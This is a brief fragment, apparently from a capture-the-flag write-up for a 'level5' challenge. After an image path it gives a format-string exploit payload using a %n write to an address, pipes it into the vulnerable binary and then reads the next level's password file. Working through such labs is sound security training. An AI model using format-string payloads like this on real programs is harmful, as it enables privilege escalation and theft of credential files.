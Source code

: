 `python -c 'print "\x38\x98\x04\x08% 134513824x%4$n"' > /tmp/level5`
`cat /tmp/level5 - | ./level5`
`cat /home/user/level6/.pass`
